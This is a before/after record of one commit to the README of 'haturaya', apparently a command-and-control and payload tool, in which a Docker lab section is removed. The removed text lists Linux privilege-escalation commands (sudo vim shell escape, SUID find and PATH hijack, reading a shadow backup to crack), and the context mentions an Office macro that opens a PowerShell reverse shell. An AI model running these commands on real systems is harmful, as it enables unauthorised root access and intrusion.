

Before and after one commit to muhammmadhisam/haturaya, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; badges without logos; blank space fills up the shorter version.

Commit message:
docs: remove Docker Lab section (lab.sh does not exist)

````diff
--- a/README.md
+++ b/README.md
@@ -12,8 +12,6 @@
   <a href="#installation">Install</a>
   <span> • </span>
   <a href="#usage">Usage</a>
-  <span> • </span>
-  <a href="#docker-lab">Docker Lab</a>
   <span> • </span>
   <a href="#payload-generation">Payloads</a>
   <p></p>
@@ -144,34 +142,6 @@ Opening the file triggers `Auto_Open` → PowerShell reverse shell.
 
 ---
 
-## Docker Lab
-
-A pre-built lab with an attacker container (Haturaya C2) and a victim Ubuntu 22.04 container with intentional misconfigurations.
-
-```bash
-bash ./lab.sh start     # build images + start containers
-bash ./lab.sh c2        # interactive TUI in attacker container
-bash ./lab.sh victim    # root shell in victim container
-bash ./lab.sh ssh       # SSH as user into victim (port 2222)
-bash ./lab.sh payloads  # show one-liner payloads for the lab
-bash ./lab.sh privesc   # show privesc hints
-bash ./lab.sh stop      # tear down
-```
-
-**Victim credentials**: `user` / `password` · `root` / `toor`
-
-### 5 Privesc Paths
-
-| # | Technique | Command |
-|---|-----------|---------|
-| 1 | Sudo vim escape | `sudo vim -c ':!/bin/bash'` |
-| 2 | SUID find | `find . -exec /bin/bash -p \; -quit` |
-| 3 | Writable root cron | append shell to `/opt/scripts/heartbeat.sh` |
-| 4 | Readable shadow backup | `cat /var/backups/shadow.bak` → crack with john |
-| 5 | SUID PATH hijack | `echo '/bin/bash -p' > /tmp/ps && PATH=/tmp:$PATH /usr/local/bin/vuln_app` |
-
----
-
 ## Agent Protocol
 
 ### Encrypted mode (Python AES-GCM agent)
````
